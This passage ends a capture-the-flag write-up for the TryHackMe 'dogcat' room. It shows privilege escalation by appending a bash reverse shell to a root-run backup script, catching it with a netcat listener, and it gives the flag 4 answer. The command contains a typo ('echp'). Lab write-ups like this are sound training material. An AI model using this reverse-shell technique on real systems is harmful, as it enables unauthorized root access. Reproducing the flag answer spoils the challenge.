-rwxr--r-- 1 root root      69 Mar 10  2020 backup.sh
-rw-r--r-- 1 root root 2949120 Jul 14 03:17 backup.tar

cat /opt/backups/backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Let's just put a nice ol' reverse shell inside this backup script:
```shell-session
echp "bash -i >& /dev/tcp/10.11.5.201/9000 0>&1" >> /opt/backups/backup.sh
```

On another session on our machines:
```shell-session
$ nc -nvlp 9000
...
root@dogcat:~# ls
container
flag4.txt

root@dogcat:~# cat flag4.txt
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
```

> What is flag 4?
> 
> Answer: `THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [dogcat](https://tryhackme.com/room/dogcat) by [jammy](https://tryhackme.com/p/jammy)
